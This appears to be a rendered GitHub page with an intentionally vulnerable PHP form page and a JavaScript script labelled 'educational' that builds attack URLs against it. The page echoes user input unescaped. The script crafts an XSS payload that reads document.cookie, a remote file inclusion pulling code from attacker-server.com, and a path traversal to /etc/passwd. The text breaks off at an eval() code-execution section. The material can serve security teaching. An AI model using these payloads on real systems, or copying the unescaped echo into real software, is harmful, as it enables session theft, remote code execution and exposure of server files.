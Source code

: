 ```injectablephp
    <h1>Vulnerable PHP Application</h1>
    
    <!-- Search Form (SQL Injection vector) -->
    <form method="GET" action="">
        <h3>Search Products:</h3>
        <input type="text" name="query" value="<?php echo $searchQuery; ?>">
        <input type="submit" value="Search">
    </form>
    
    <!-- Page Inclusion Form (PHP Injection vector) -->
    <form method="GET" action="">
        <h3>View Page:</h3>
        <input type="text" name="page" placeholder="Enter page name">
        <input type="submit" value="View">
    </form>
    
    <!-- Calculator Form (PHP Code Execution vector) -->
    <form method="GET" action="">
        <h3>Calculator:</h3>
        <input type="text" name="calculate" placeholder="Enter calculation">
        <input type="submit" value="Calculate">
    </form>
</body>
</html>
```
> this script shows how to inject php commonds via a url 
```javascript
// EDUCATIONAL PURPOSES ONLY
// This script demonstrates how an attacker could exploit the vulnerabilities
// in the previously shown PHP code

// Function to demonstrate XSS attack through the search query parameter
function demonstrateXSSAttack() {
  // Create a malicious search query that injects JavaScript
  const maliciousQuery = '<script>alert("XSS Attack! Your cookies: " + document.cookie)</script>';
  
  // Construct the URL with the malicious query
  const xssUrl = `http://example.com/vulnerable.php?query=${encodeURIComponent(maliciousQuery)}`;
  
  console.log("XSS Attack URL:");
  console.log(xssUrl);
  console.log("This would inject JavaScript that executes in the victim's browser");
}

// Function to demonstrate PHP inclusion attack
function demonstrateFileInclusionAttack() {
  // Remote file inclusion attack
  const remoteFileUrl = "http://example.com/vulnerable.php?page=http://attacker-server.com/malicious-code.php";
  
  // Local file inclusion attack (path traversal)
  const localFileUrl = "http://example.com/vulnerable.php?page=../../../../etc/passwd";
  
  console.log("Remote File Inclusion Attack URL:");
  console.log(remoteFileUrl);
  console.log("This would include a malicious PHP file from the attacker's server");
  
  console.log("\nLocal File Inclusion Attack URL:");
  console.log(localFileUrl);
  console.log("This could expose sensitive server files");
}

// Function to demonstrate PHP code execution attack using eval()
```
